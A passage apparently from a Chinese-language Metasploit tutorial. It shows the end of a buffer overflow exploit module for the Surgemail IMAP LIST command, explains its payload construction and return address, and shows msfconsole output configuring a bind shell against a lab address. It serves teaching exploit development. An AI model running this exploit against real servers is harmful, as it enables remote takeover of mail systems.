 ```
        evil = nopes + payload.encoded + njump + sjump + [target.ret].pack("A3")
        print_status("Sending payload")
        sploit = '0002 LIST () "/' + evil + '" "PWNED"' + "\r\n"
        sock.put(sploit)
        handler
        disconnect
    end

end
```

最重要的方面是注意上面exploit代码的几个方面：
- 我们定义了这个shellcode的最大空间，并设置 DisableNops 特性来禁止自动的shellcode填充，我们将自己填充这个payload。
- 我们设置了默认的编码器来进行可读字符最大化编码，因为这是IMAP协议的特性。
- 我们定义了自己的3字节POP POP RET返回地址，后续将通过 target.ret 变量引用。
- 我们定义了一个 check 函数，可以检查 IMAP 服务器 banner，以识别有漏洞的服务器，以及exploit函数。

让我们看一下他是否可行：
```
 msf > search surgemail
 [*] Searching loaded modules for pattern 'surgemail'...
 
 Exploits
 ========
 
 Name                         Description                                  
 ----                         -----------                                  
 windows/imap/surgemail_list  Surgemail 3.8k4-4 IMAPD LIST Buffer Overflow 
 
 
 msf > use windows/imap/surgemail_list
 msf exploit(surgemail_list) > show options
 
 Module options:
 
 Name      Current Setting  Required  Description                             
 ----      ---------------  --------  -----------                             
 IMAPPASS  test             no        The password for the specified username 
 IMAPUSER  test             no        The username to authenticate as         
 RHOST     172.16.30.7      yes       The target address                      
 RPORT     143              yes       The target port                         
 
 Payload options (windows/shell/bind_tcp):
 
 Name      Current Setting  Required  Description                          
 ----      ---------------  --------  -----------                          
 EXITFUNC  thread           yes       Exit technique: seh, thread, process 
 LPORT     4444             yes       The local port                       
 RHOST     172.16.30.7      no        The target address                   
 
 Exploit target:
 
 Id  Name               
 --  ----               
 0   Windows Universal
```
